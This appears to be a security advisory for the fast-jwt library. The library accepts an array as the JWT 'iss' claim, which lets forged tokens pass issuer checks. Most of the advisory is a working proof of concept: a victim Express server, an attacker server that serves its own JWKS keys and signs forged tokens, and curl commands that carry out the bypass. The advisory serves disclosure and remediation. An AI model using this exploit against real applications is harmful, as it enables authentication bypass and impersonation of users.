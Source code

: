 ### Summary
The `fast-jwt` library does not properly validate the `iss` claim based on the RFC https://datatracker.ietf.org/doc/html/rfc7519#page-9.

#### Details
The `iss` (issuer) claim validation within the fast-jwt library permits an array of strings as a valid `iss` value. This design flaw enables a potential attack where a malicious actor crafts a JWT with an `iss` claim structured as `['https://attacker-domain/', 'https://valid-iss']`. Due to the permissive validation, the JWT will be deemed valid.

Furthermore, if the application relies on external libraries like `get-jwks` that do not independently validate the `iss` claim, the attacker can leverage this vulnerability to forge a JWT that will be accepted by the victim application. Essentially, the attacker can insert their own domain into the `iss` array, alongside the legitimate issuer, and bypass the intended security checks.

#### PoC
Take a server running the following code:

```js
const express = require('express')
const buildJwks = require('get-jwks')
const { createVerifier } = require('fast-jwt')

const jwks = buildJwks({ providerDiscovery: true });
const keyFetcher = async (jwt) =>
    jwks.getPublicKey({
        kid: jwt.header.kid,
        alg: jwt.header.alg,
        domain: jwt.payload.iss
    });


const jwtVerifier = createVerifier({
    key: keyFetcher,
    allowedIss: 'https://valid-iss',
});

const app = express();
const port = 3000;

app.use(express.json());


async function verifyToken(req, res, next) {
  const headerAuth = req.headers.authorization.split(' ')
  let token = '';
  if (headerAuth.length > 1) {
    token = headerAuth[1];
  }

  const payload = await jwtVerifier(token);

  req.decoded = payload;
  next();
}

// Endpoint to check if you are auth or not
app.get('/auth', verifyToken, (req, res) => {
  res.json(req.decoded);
});

app.listen(port, () => {
  console.log(`Server is running on port ${port}`);
});
```

Now we build a server that will be used to generate the JWT token and send the verification keys to the victim server:

```js
const { generateKeyPairSync } = require('crypto');
const express = require('express');
const pem2jwk = require('pem2jwk');
const jwt = require('jsonwebtoken');

const app = express();
const port = 3001;
const host = `http://localhost:${port}/`;

const { publicKey, privateKey } = generateKeyPairSync("rsa", 
    {   modulusLength: 4096,
        publicKeyEncoding: { type: 'pkcs1', format: 'pem' },
        privateKeyEncoding: { type: 'pkcs1', format: 'pem' },
    },
); 
const jwk = pem2jwk(publicKey);

app.use(express.json());

// Endpoint to create token
app.post('/create-token', (req, res) => {
  const token = jwt.sign({ ...req.body, iss: [host, 'https://valid-iss'],  }, privateKey, { algorithm: 'RS256' });
  res.send(token);
});

app.get('/.well-known/jwks.json', (req, res) => {
    return res.json({
        keys: [{
            ...jwk,
            alg: 'RS256',
            use: 'sig',
        }]
    });
})

app.all('*', (req, res) => {
    return res.json({
        "issuer": host,
        "jwks_uri": host + '.well-known/jwks.json'
    });
});

app.listen(port, () => {
  console.log(`Server is running on port ${port}`);
});
```


```bash
export TOKEN=$(curl -X POST http://localhost:3001/create-token -H "Content-Type: application/json" -d '{"name": "test"}')
curl -X GET http://localhost:3000/auth -H "Authorization: Bearer $TOKEN"
```

#### Impact
Applications relaying on the validation of the `iss` claim by fast-jwt allows attackers to sign arbitrary payloads which will be accepted by the verifier.

#### Solution
Change https://github.com/nearform/fast-jwt/blob/d2b0ccb103848917848390f96f06acee339a7a19/src/verifier.js#L475 to a validator tha accepts only string for the value as stated in the RFC https://datatracker.ietf.org/doc/html/rfc7519#page-9.

